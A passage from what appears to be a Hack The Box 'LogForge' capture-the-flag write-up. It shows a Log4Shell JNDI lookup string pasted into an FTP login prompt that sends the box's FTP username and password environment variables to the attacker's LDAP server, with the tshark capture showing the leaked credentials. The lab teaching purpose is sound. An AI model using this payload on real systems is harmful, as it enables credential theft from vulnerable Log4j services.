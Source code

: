 If you're not familiar with tshark, it's the command line version of Wireshark. See the official docs [here](https://www.wireshark.org/docs/wsug_html_chunked/AppToolstshark.html) and [this](https://hackertarget.com/tshark-tutorial-and-filter-examples/) gives us a couple of examples to help understand how to use it.

Start tshark to capture the traffic on the network for when our rogue LDAP server responds to the JNDI request it will receive from the box:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# tshark -i tun0 -w capture-output.pcap             
Running as user "root" and group "root". This could be dangerous.
Capturing on 'tun0'
```

Now switch back to the box, start the ftp server and we can use a variation on the JNDI string we used earlier to get the username and password:

```text
${jndi:ldap://10.10.14.12:389/PENCER--USER:${env:ftp_user}:PASSWORD:${env:ftp_password}}
```

Just paste that in to the Name field when the FTP starts on the box:

```text
tomcat@LogForge:/var/lib/tomcat9$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.14.12:389/PENCER--USER:${env:ftp_user}:PASSWORD:${env:ftp_password}}
530 Not logged in
Login failed.
Remote system type is FTP.
ftp>
```

That JNDI string will call back to our Kali LDAP server on port 389 like before, this time it's passing the environmental variables for ftp_user and ftp_password. They will be converted to the actual values of those variables when they are passed to us so we can see what they are.

Switch back to tshark and ctrl-z to stop capturing, then we can read the pcap file in and filter on tcp.port == 389 to just see the LDAP traffic:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# tshark -r capture-output.pcap -Y "tcp.port == 389"
Running as user "root" and group "root". This could be dangerous.
   51 47.911452088 10.10.11.138 → 10.10.14.12  TCP 60 49570 → 389 [SYN] Seq=0 Win=64240 Len=0 MSS=1357 SACK_PERM=1 TSval=2899496524 TSecr=0 WS=128
   52 47.911461071  10.10.14.12 → 10.10.11.138 TCP 60 389 → 49570 [SYN, ACK] Seq=0 Ack=1 Win=65160 Len=0 MSS=1460 SACK_PERM=1 TSval=397187176 TSecr=2899496524 WS=128
   53 47.941983374 10.10.11.138 → 10.10.14.12  LDAP 66 bindRequest(1) "<ROOT>" simple 
   54 47.942004270  10.10.14.12 → 10.10.11.138 TCP 52 389 → 49570 [ACK] Seq=1 Ack=15 Win=65152 Len=0 TSval=397187207 TSecr=2899496554
   55 47.942916086  10.10.14.12 → 10.10.11.138 LDAP 66 bindResponse(1) success 
   56 47.949976978 10.10.11.138 → 10.10.14.12  TCP 52 49570 → 389 [ACK] Seq=1 Ack=1 Win=64256 Len=0 TSval=2899496553 TSecr=397187176
   57 47.949981738  10.10.14.12 → 10.10.11.138 TCP 52 [TCP Dup ACK 54#1] 389 → 49570 [ACK] Seq=15 Ack=15 Win=65152 Len=0 TSval=397187215 TSecr=2899496554
   58 47.960595615 10.10.11.138 → 10.10.14.12  TCP 52 49570 → 389 [ACK] Seq=15 Ack=15 Win=64256 Len=0 TSval=2899496574 TSecr=397187208
   59 47.962551601 10.10.11.138 → 10.10.14.12  LDAP 151 searchRequest(2) "PENCER--USER:ippsec:PASSWORD:log4j_env_leakage" baseObject 
   60 47.962558763  10.10.14.12 → 10.10.11.138 TCP 52 389 → 49570 [ACK] Seq=15 Ack=114 Win=65152 Len=0 TSval=397187227 TSecr=2899496576
   61 47.966877708  10.10.14.12 → 10.10.11.138 TCP 1397 389 → 49570 [ACK] Seq=15 Ack=114 Win=65152 Len=1345 TSval=397187232 TSecr=2899496576 [TCP segment of a reassembled PDU]
   62 47.966884610  10.10.14.12 → 10.10.11.138 LDAP 923 searchResEntry(2) "PENCER--USER:ippsec:PASSWORD:log4j_env_leakage" 
```